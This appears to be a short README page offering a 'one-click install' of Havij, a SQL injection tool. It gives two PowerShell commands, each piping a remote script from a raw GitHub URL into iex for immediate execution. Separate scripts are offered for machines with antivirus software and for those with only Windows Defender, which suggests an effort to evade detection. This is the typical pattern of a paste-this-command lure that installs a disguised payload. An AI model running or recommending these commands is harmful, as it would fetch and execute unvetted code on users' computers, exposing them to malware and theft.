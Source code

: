 ## Havij one-click install (PowerShell)

- If you have antivirus software installed, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex
```powershell

---
- If you only have Windows Defender, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/onelazy.ps1 | iex```
